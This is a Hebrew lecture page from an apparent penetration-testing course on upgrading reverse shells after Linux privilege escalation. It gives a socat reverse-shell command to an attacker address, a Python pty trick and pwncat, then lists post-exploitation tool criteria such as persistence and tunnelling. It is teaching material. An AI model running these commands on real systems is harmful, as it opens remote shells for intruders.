

repository: AmitPinchasi/amittech · page: בודק-חדירות/2 - תקיפת לינוקס/2.4 - כלי סייבר בלינוקס/2.4 - כלי סייבר בלינוקס - הרצאה/index.html · generator: mkdocs

# הצלחנו להסלים הרשאות, מה עכשיו?

## קצת על ריברס shell
אז דיברנו קצת על reverse shell-ים בעבר, ובגדול אפשר ליצור reverse shell ממש פשוט באמצעות המון פקודות ותוכנות שיש במחשבי לינוקס. 
אם אתם צריכים תזכורת, בקרו באתר הבא ותקראו את הreverse shell-ים השונים שאפשר לעשות שם: https://www.revshells.com/

- אחת הבעיות של reverse shell שמאוד קל לתקוע אותם, כלומר בגלל שאין לנו חיבור טרמינל אמיתי ואנחנו כנראה עובדים מעל ncat, אז בכל ctrl+c לא נכון, אנחנו יכולים להקריס את החיבור. 
- כדי לפתור את הבעיה, נוכל ליצור "tty" לחיבור שלנו- או במילים אחרות, לקבל הגדרות של shell ממערכת ההפעלה בצד שרת כדי לעטוף את החיבור לshell אמיתי ולקבל shell חוסני יותר. 

קראו את המדריך הבא: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

הנה כמה דרכים:
- באמצעות פקודת פייתון
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- ליצור reverse shell עם socat
```bash
# on attacker
socat file:`tty`,raw,echo=0 tcp-listen:4444
# on attacked
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
אם לא מותקן socat, תוכלו להוריד בינארי סטטי: https://github.com/andrew-d/static-binaries/tree/master
- ליצור tty עם bash:
```
ctrl + z
stty raw -echo && fg
export TERM=xterm
```

בגדול כדי לשפר אפילו עוד יותר את החוויה שלנו עם reverse shell-ים, נוכל להשתמש בכלים צד לוקח שעוטפים reverse shell-ים.

### הכלי pwncat
הכלי pwncat מאפשר לנו לבסס reverse shell פשוט עם צד לקוח מורכב עם המון אפשרויות.
- הרימו חיבור מאזין עם pwncat,
- הריצו על הנתקף reverse shell פשוט שמתחבר לpwncat שלכם
- וקיבלתם כלי לניהול הreverse shell.
  https://github.com/calebstewart/pwncat


## כלי סייבר בלינוקס
אבל מה לעשות, ריברס של אף פעם לא יכול להיות פתרון הרמתי. 
וכאשר אנחנו רוצים לקבל שליטה יותר חזקה על המכונה, נצטרך להשתמש בכלי סייבר אמיתי ויותר חזק.
נרצה להתקין כלים שיאפשרו לנו לבצע פעולות בצורה קלה ונוחה. הכלים הללו צריכים לעמוד בכמה קריטריונים:

1. לאפשר הרצת קוד באופן חופשי.
2. לאפשר העלאה והורדה של קבצים למכונה.
3. לאפשר טינול (tunneling) מהמחשב שלנו לרשת פנימית דרך המחשב שעליו אנחנו רצים.
4. שהכלי יהיה פרסיסטנטי, כך  שגם לאחר אתחול מחדש של המערכת הכלי ישאר.

## דוגמאות לכלים מוכרים באינטרנט
